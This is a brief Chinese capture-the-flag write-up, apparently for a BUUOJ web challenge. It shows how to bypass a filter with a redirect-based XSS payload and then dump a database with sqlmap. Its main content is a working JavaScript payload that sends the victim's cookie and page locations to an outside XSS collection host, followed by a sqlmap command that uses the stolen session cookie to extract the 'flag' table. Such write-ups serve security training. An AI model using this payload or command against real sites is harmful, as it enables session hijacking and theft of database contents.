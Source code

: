 用跳转来绕过

```js
(function(){window.location.href='http://xss.buuoj.cn/index.php?do=api&id=U3wid&keepsession=0
 &location='+escape((function(){try{return document.location.href}catch(e){return''}})())+
 '&toplocation='+escape((function(){try{return top.location.href}catch(e){return''}})())+
 '&cookie='+escape((function(){try{return document.cookie}catch(e){return''}})())+
 '&opener='+escape((function(){try{return(window.opener&&window.opener.location.href)?window.opener.location.href:''}catch(e){return''}})());})();
```


然后拿到cookie可以进``/admin.php``了

存在sql注入，用sqlmap 跑一下就行

```
sqlmap -u "http://cb561470-59bf-403a-a7e4-ab22f777cb25.node3.buuoj.cn/admin.php?id=2" --cookie="PHPSESSID=b81d5f73388c74a98372f0bddcb6ba2d" -p id -D ciscn -T flag --dump
```

